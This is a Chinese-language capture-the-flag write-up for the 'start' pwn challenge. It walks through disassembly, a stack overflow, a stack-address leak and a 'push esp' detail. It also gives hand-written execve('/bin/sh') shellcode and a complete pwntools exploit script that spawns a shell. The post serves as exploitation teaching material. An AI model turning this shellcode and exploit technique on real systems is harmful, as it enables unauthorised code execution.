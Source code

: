 ```yaml
---
title: pwnable_start
date: 2023-01-02 19:54:26
categories: 
- pwn_wp
tags: 
- pwn
- stackoverflow
- asm

---
```


没有C语言代码，是个汇编的程序，考察基础的汇编

<!-- more -->

查壳后发现32位保护都没开，在ida中程序是用汇编代码写的，只有简单的write和read功能。

```asm

.text:08048060                 push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    3A465443h
.text:08048073                 push    20656874h
.text:08048078                 push    20747261h
.text:0804807D                 push    74732073h
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 14h         ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 3Ch ; '<'
.text:08048095                 mov     al, 3
.text:08048097                 int     80h             ; LINUX - sys_read
.text:08048099                 add     esp, 14h
.text:0804809C                 retn

```

其实就是如下代码：

```c

write(1,addr,0x14)
read(0,addr,0x3c)

```

明显的栈溢出，保护没开可以使用shellcode来get shell。不过pwntools自带的shellcode太长了，只能自己写shellcode。

```python
shellcode=asm(
'''
    xor ecx , ecx;
    xor edx , edx;
    push 0x0068732f;    #\x00hs/
    push 0x6e69622f;    #nib/
    mov ebx , esp;
    mov al , 0xb;
    int 0x80
'''
)
```

有了shellcode之后，要让程序能够执行shellcode，为此我们需要得到一个栈上的地址，并合理的排布栈空间，让ret指令能跳转到shellcode。

可以利用栈溢出，将返回地址覆盖为0x08048087，再次执行write指令，输出当前esp指向的内存，这也是一开始push进栈的esp，是当前esp的地址+0x4，由此我们可以得到一个栈地址。

在这之后还会有一次read，会从当前esp指向的地方开始输入，由于最后有一个add esp 14h，我们可以知道0x14个字节后的位置会被ret指令pop eip，因此此处应该放置shellcode的**起始地址**，这个地址通过之前得到的栈地址和偏移计算出来。

如果read开始输入的地址是x，那么我们之前得到的地址stack_addr是x+0x4，在x+0x14的地方放置shellcode的**起始地址**，shellcode被我们放置在x+0x18，紧跟着起始地址，因此起始地址应该是stack_addr+0x14。

**push指令的小区别**

一开始不太理解为什么是stack+0x14，后来查了一下资料，发现push指令执行时会有些区别。

如果是push一个**立即数**，或**除了esp之外的寄存器**，那么push指令就相当于:

```asm
lea esp , dword ptr ds:[esp-0x4];   //把esp-0x4这个地址写到esp，即先移动esp
mov dword ptr ds:[esp] , xxx;   //再在esp处写入数据
```

push会先移动esp，再把内容写入当前esp指向的位置。

但如果是push esp，那么push指令就是：

```asm
mov dword ptr ds:[esp-0x4] , esp;   //将esp寄存器中存的地址写到esp-0x4的位置，先把esp的内容放到栈上
lea esp , dword ptr ds:[esp-0x4];   //将esp-0x4这个地址写到esp，即移动esp
```

push会先将当前的esp写到esp-0x4，然后再移动esp，毕竟移动esp后再写到栈上好像没有什么意义，后面pop esp和没有pop一样。

exp:

```python
from pwn import*
p=process('./start')
#p=remote('node4.buuoj.cn',28732)
context.arch='i386'
context.log_level='debug'
padding=0x14

gdb.attach(p)

shellcode=asm(
'''
    xor ecx , ecx;
    xor edx , edx;
    push 0x0068732f;
    push 0x6e69622f;
    mov ebx , esp;
    mov al , 0xb;
    int 0x80
'''
)
print("this is shellcode : ",shellcode)
p.recv()
payload1='a'*padding+p32(0x08048087)
p.send(payload1)
stack_addr=u32(p.recv(4))
print("this is the stack addr : ",hex(stack_addr))

payload2='a'*padding+p32(stack_addr+0x14)+shellcode
p.send(payload2)
p.interactive()

```
